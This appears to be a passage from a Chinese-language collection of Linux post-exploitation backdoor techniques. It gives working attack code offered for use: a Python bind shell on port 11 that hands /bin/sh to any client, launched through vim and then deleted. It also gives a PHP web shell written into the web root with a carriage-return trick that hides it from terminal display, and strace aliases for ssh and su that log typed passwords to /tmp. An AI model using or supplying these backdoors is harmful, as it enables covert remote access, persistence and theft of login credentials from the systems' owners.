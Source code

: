 **vim 后门**

此方法适用于安装了 vim 且安装了 python 扩展(绝大版本默认安装)的 linux 系统,至于恶意脚本 dir.py 的内容可以是任何功能的后门.如 python 版本的正向后门监听 11 端口.

检测有无扩展
```bash
vim --version | grep python
```

enter the mal script directory 、execute the script and then remove the script
`cd /usr/lib/python2.7/site-packages`

```python
vim dir.py
#from https://www.leavesongs.com/PYTHON/python-shell-backdoor.html
from socket import *
import subprocess
import os, threading, sys, time

if __name__ == "__main__":
        server=socket(AF_INET,SOCK_STREAM)
        server.bind(('0.0.0.0',11))
        server.listen(5)
        print 'waiting for connect'
        talk, addr = server.accept()
        print 'connect from',addr
        proc = subprocess.Popen(["/bin/sh","-i"], stdin=talk,
                stdout=talk, stderr=talk, shell=True)
```
`$(nohup vim -E -c "pyfile dir.py"> /dev/null 2>&1 &) && sleep 2 && rm -f dir.py`

read more [[DARK] Weapons of Text Destruction](https://github.com/jaredestroud/WOTD/blob/master/%5BDARK%5D%20Weapons%20of%20%20Text%20Destruction.pdf)

**终端解析 \r 导致的问题**
```bash
echo -e "<?=\`\$_POST[good]\`?>\r<?='PHP Test Page >||<                  ';?>" >/var/www/html/test.php
```

**strace 记录 ssh 登录密码**

注意 bash_profile 是在登录的 shell 执行的,bashrc 是在非登录的 shell 执行,即如果你只是想每次在登录的时候让它去执行,这个时候你可以把你的命令写在 .bash_profile,如果你想每次打开一个新的终端的时候都去执行,那么应该把命令写在 .bashrc 中.
```bash
alias ssh='strace -o /tmp/sshpwd-`date    '+%d%h%m%s'`.log  \
 -e read,write,connect  -s2048 ssh'
# 也可记录 su 密码
alias su='strace -o /tmp/sshpwd-`date    '+%d%h%m%s'`.log  \
 -e read,write,connect  -s2048 su'

grep "read(3" /tmp/sshpwd-名字自己补全  | tail -n 11
```

**预加载型动态链接库后门 ld.so.preload**

